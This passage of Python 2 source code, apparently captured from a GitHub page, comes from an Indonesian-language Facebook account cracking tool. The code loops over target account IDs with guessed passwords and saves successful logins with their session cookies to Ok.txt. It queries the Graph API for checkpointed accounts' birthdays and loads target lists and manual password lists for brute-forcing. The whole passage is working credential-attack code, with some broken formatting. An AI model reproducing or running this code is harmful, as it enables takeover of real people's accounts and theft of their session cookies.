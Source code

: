 					self.ada.append("%s | %s"%(fl.get("id"),i))
					if fl.get("id") in open("Ok.txt").read():
						break
					else:
						open("Ok.txt","a+").write(
						"%s | %s\n\n"%(fl.get("id"),i,gets_cookies(log.get("cookies"))))
					ko="%s | %s\n\n"%(fl.get("id"),i,gets_cookies(log.get("cookies")))
					break
				elif log.get("status")=="cp":
					try:
						toket=open('login.txt','r').read()
						q=requests.get("https://graph.facebook.com/"+fl.get("id")+"?access_token="+toket)
						w=json.loads(q.text)
						tl=w["birthday"]

					except (KeyError, IOError):
		                         tl = "*Private"
					except:pass
					print("\r\033[0;93m[Cp] "+(fl.get("id")+" \033[0;97m|\033[0;93m "+i+"\033[0;93m "+tl+" "))
					self.cp.append("%s | %s %s"%(fl.get("id"),i,tl))
					open("Cp.txt","a+").write(
						"%s | %s %s\n"%(fl.get("id"),i,tl))
					break
				else:continue
					
			self.ko+=1
			print "\r[Crack] %s/%s *Ok : %s - *Cp : %s"%(self.ko,len(self.fl),len(self.ada),len(self.cp)),;sys.stdout.flush()
		except:
			self.main(fl)
class crack1:
	def __init__(self):
		self.ada=[]
		self.cp=[]
		self.ko=0
		while True:
			print('──────────────────────────────────────────')
			f=raw_input("[?] Gunakan Pass Manual (y/t) : ")
			if f=="":continue
			elif f=="y":
				try:
					while True:
						try:
							self.apk= 'rozhak.json'
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print('[x] File Tidak Ada')
							menu()
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print('[x] File Tidak Ada')
					continue
				print('[•] Contoh Pass : sayang,anjing')
				self.pwlist()
				break
			elif f=="t":
				try:
					while True:
